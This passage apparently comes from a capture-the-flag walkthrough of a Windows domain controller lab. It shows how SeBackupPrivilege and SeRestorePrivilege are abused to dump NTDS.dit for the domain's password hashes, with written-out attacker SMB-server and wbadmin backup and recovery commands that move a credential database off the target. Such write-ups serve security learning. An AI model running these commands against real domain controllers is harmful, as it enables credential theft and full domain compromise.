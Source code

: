 This attempt failed because even with `SeBackupPrivilege`, directly accessing `root.txt` within the Administrator's protected desktop via `robocopy` was not permitted in this context. This highlighted the need for a more robust method to obtain the Administrator's credentials.

-----

### Abusing `SeBackupPrivilege` and `SeRestorePrivilege` to Dump NTDS.dit

The ultimate goal was to obtain the Administrator's hash and achieve full domain compromise. This could be done by dumping the Active Directory database, `NTDS.dit`, which contains all user hashes. The `SeBackupPrivilege` allows bypassing file system permissions to back up files, making `NTDS.dit` a prime target. `SeRestorePrivilege` allows restoring files, which can be leveraged to extract `NTDS.dit` from a backup.

The process involved:

1.  Setting up an SMB share on the attacker machine to receive the `NTDS.dit` file.
2.  Using `wbadmin` on the DC to create a system state backup, which includes `NTDS.dit`.
3.  Recovering the backed-up `NTDS.dit` and the `SYSTEM` hive (which is needed to decrypt the hashes in `NTDS.dit`) to a temporary location.
4.  Downloading these files to the attacker machine via the SMB share.

First, set up an SMB server on the attacker machine (Kali Linux) to receive the files:

```bash
sudo smbserver.py share . -smb2support -username test -password test
```

From the `evil-winrm` session on the DC (`10.129.93.138`):

**1. Create a temporary directory for backup artifacts:**

```powershell
New-Item -ItemType Directory -Path "C:\temp_backup"
```

**2. Perform a backup of NTDS.dit using `wbadmin`:**
This command backs up the NTDS.dit file to a specified target. Since `wbadmin` needs a local path or a network share, we will use a local folder initially and then move the file.

```powershell
wbadmin start backup -backupTarget:C:\temp_backup -include:C:\Windows\NTDS\NTDS.dit -quiet
```

**3. Get the version identifier of the created backup:**
This is crucial for the recovery step.

```powershell
wbadmin get versions
```

*(Example output might show a version like `07/02/2025-18:08`)*

**4. Recover the `NTDS.dit` file from the backup:**
This leverages `SeRestorePrivilege`. The `-recoverytarget` specifies where the recovered file will be placed, and `-notrestoreacl` prevents restoring original ACLs, which is often helpful.

```powershell
wbadmin start recovery -quiet -version:07/02/2025-18:08 -itemtype:file -items:C:\Windows\NTDS\NTDS.dit -recoverytarget:C:\Users\svc_backup\Documents -notrestoreacl
```
